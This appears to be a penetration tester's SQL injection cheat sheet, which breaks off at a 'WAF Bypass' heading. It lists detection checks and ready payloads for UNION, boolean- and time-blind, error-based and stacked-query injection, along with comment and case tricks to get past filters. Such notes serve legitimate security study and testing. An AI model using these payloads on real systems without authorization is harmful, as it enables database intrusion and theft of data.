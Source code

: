 # SQL Injection (SQLI):  

	If a database is queried without proper input sanitization
    https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
    https://portswigger.net/web-security/sql-injection/cheat-sheet
    https://book.hacktricks.xyz/pentesting-web/sql-injection
    https://sqlwiki.netspi.com/#mysql
	Checks:
		See if ' OR " cause errors
        	URL parameters:  might need to URL encode
			?id=1' produces error?
			?cod=1+and+2=2  displays correctly?
    Overview:
        *Query Types & Methods:
            SELECT:
                Simple UNION:  
                    SELECT ... WHERE USERID=1 UNION SELECT 1
                    SELECT ... LIKE offsec_scope" UNION ALL SELECT 1,2,3,4,5#
                    *Pay attention to the type of data/column we're injecting into - may have to ...collate for UNION queries
                    *Also try UNION ALL
                    *Also try LIMIT 1       
                Blind:
                    Boolean:  [...] WHERE [.] AND ASCII(SUBSTR((SUBQUERY),X,X))=Y;
                    Time-Based:  [...] WHERE [.] AND ASCII(SUBSTR((SUBQUERY),X,X))=Y AND SLEEP(1337);
                    Boolean UNION:  SELECT ... WHERE USERID=1 UNION SELECT CASE WHEN (SELECT 1)=1 THEN 1 ELSE 0 END
                LIKE:
                    Blind Boolean:  zzz%'/**/or/**/(select/**/ascii(substring((select/**/[QUERY]),[OFFSET],1)))=[CHAR];#    //(assuming zzz doesn't exist)
                ORDER BY:
                    Boolean:  [...] WHERE [.] ORDER BY (SELECT (CASE WHEN EXISTS(SUBQUERY) THEN column1 ELSE column2 END));
                    Blind Time-Based:  [...] WHERE [.] ORDER BY (SUBQUERY AND sleep(1337));
            UPDATE/INSERT:
                Blind Error:  INSERT INTO user_agent values(NULL, '1' and updatexml(1, concat(0x7e, (user())), 0) and '1');
                Blind Time:  1' AND CASE (SUBSTRING(VERSION(), 1, 1)) WHEN 5 THEN SLEEP(10) ELSE NULL END AND '1
            Stacked Query:
                PostgreSQL-supported, MySQL generally not - but test!
                PyMysql supports if "multi=True" is set
                If supported: trying adding an INSERT or UPDATE statement
                Problem: returns multiple result sets - can prevent data exfiltration via blind boolean injection with stacked queries
                    Solution: Time-based blind injection with stacked queries
                        ex. ?ForMasRange=1&userId=1;%20SELECT%20pg_sleep(10)%20--
            Injecting into number field (quotes unnecessary w/ ; and stacked query) vs. string fields
                ex. 3 or 1=1 limit 1  ;  3 union select 1,2  ;  3 union select user(),database()
                If no stacked queries, use sub-queries:  (SELECT group_concat(table_name) from information_schema.tables WHERE version = 10)
            Error-Based Exfiltration - if errors are displayed:
                ex.  test' AND extractvalue(rand(),concat(0x3a,(SELECT @@version))) #
                https://github.com/rinku191/MySQL-SQL-Injection-Cheatsheet
        *Troubleshooting:
            Check SQL logs - might need quotes to escape; might need -- OR + OR %23 to terminate; might need semicolon to stack, etc.
                Check for escaped/filtered characters
            Test different types of payloads - simple payloads first
            Use ASCII conversion when reading files to avoid encoding issues
            Bypassing Character Restrictions:
                Space -> Comment:  SELECT/**/id,/**/user,/**/password/**/FROM/**/users/**/WHERE/**/id/**/=/**/'1';
                Upper and Lower Case:  SeLeCT id, user, password frOM users WHeRe id = '1';
            WAF Bypass:
